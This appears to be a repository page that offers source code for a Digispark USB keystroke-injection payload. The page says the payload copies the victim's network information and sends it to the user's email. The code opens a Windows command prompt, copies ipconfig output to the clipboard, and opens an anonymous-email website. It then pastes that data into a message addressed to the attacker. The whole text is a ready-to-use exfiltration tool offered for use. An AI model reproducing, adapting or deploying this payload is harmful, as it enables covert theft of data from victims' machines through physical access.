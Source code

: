 This payload copies the victim's network information and sends it to your email.

(Runs only once)

  #include "DigiKeyboard.h"
  #define KEY_TAB  43
  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.println("cmd");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.println("ipconfig | clip & exit");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.println("http://anonymouse.org/anonemail.html");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(5000);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.println("YourEmailHere");
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.println("ipsnatch");
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_V, MOD_CONTROL_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(3000);
    DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);
  }
  void loop() {
  }